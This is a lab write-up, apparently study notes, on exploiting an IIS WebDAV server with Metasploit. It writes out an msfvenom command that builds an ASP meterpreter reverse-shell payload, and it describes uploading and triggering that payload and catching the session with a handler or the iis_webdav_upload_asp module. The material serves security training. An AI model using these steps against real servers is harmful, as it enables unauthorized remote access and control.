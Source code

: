 # Exploiting WebDAV with Metasploit

We can use davtest and cadaver to properly exploit a WebDAV, however, there are a couple of techniques that can be used with metasploit to get the same result.

In this laboratory we will complete a similar exercise to the previous one.

- We will start by performing an nmap scan to identify the webdav server and we will also include a script to enum the http server.

result:
| http-enum: 
|_  /webdav/: Potentially interesting folder (401 Unauthorized)
|_http-server-header: Microsoft-IIS/10.0

**Note**: We don't really have access to the webdav server, but credentials were given by the lab environment instructions.

**Note**: Taking a look at the webdav server we can see that we have access from the browser. The first technique with metasploit we are going to utilize is generating the asp payload with MSF venom. MSF venom is a metasploit tool that allows you to generate payloads that will essentially provide you with reverse shell access to a target system. In this case we will try to establish a meterpreter session which is an advanced reverse shell that allows us to perform additional functionalities like upload/download files from the target, etc.

- To generate the revershell script we will use the the msfvenom tool. We need to specify a staged payload that comes prepackaged in msfvenom as `windows/meterpreter/reverse_tcp`, we need to specify the LHOST (our kali linux) and the LPORT (available open port to listen) and the file type then we need to save the output to a file. It goes like this: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your-ip> LPORT=<your-open-port> -f asp > shell.asp`.

**Note**: It is preferable to use the 32-bit meterpreter when creating the reverse shell, it will always work whether the target system is 32-bits or 64-bits.

- After we have generated the reverse shell code, we need to upload it with cadaver. Just like the previous lesson.

- In order to properly execute the reverse shell with meterpreter, we need to listen with our machine in the port we specified during the creation of the shell code, it will handle the request and send back the stage that will then provide us with the meterpreter session.

**Note**: Remember to start the postgresql database to continue with the next step.

- We need to activate the msfconsole and then select the module `multi/handler`, this will let us listen to a port to handle the request we are going to receive to activate the reverse shell on the target machine. You need to specify the payload we chose to create the malicious shell code, LHOST (our address) and the LPORT we specified in the previous step. Finally we run it and it will stay listening on the specified port for a connection.

- Click the malicious payload in the webdav session in the browser, and if everything works as expected, the msfconsole will establish a connection with meterpreter in the terminal.

**Note**: After establishing the connection delete the malicious payload using cadaver.

**Note**: In this particular lab we already have elevated privileges as we will establish the connection as NT AUTHORITY\SYSTEM so there's no need to try to escalate privileges.

**Note**: All the steps we followed previously is how we can do it manually, but with the following module of the metasploit framework we can do it much more easier.

- Now for the second technique we will use the msf module `exploit/windows/iis/iis_webdav_upload_asp`, it will allow us to upload the asp file to the webdav server and start a meterpreter session automatically. This module will generate the asp payload and upload it so you need to specify the HttpPassword and HttpUsername, the RHOST (target), the LHOST and LPORT, and the full PATH of the file it will be uploaded to. When everything is set up run it and it will establish the connection with meterpreter automatically.

**Note**: meterpreter works as a linux command line interface, so linux commands are available even if the target is a windows machine.

found flag in C:\flag.txt: d3aff16a801b4b7d36b4da1094bee345.

